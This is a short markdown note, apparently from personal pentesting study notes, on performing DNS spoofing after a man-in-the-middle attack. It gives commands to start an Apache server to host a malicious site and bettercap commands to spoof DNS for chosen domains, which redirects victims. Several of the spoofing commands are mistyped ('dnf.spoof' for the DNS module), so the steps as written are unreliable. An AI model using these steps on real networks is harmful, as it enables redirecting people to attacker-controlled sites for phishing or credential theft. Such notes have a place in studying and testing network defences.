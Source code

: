 ```yaml
---
title: DNS Spoofing Attack
date: 2024-01-28 14:15:56 -0600
---
```


After performing MITM attack all the targets packets are flowing through our system. We can redirect the user to an malicious website by spoofing the DNS request of the user

#### Start Apache Server

````bash
systemctl start apache2.service
````

`/var/www/html`: Location of Apache Files

#### DNS Spoofing

````bash
bettercap -iface <interface> -caplet <spoof-data-cap-file>
help dns.spoof

set dnf.spoof.all true
# Domains for which DNS should be spoofed
set dnf.spoof.domains <domains> 
dnf.spoof on
````

This attack does not work on HSTS websites
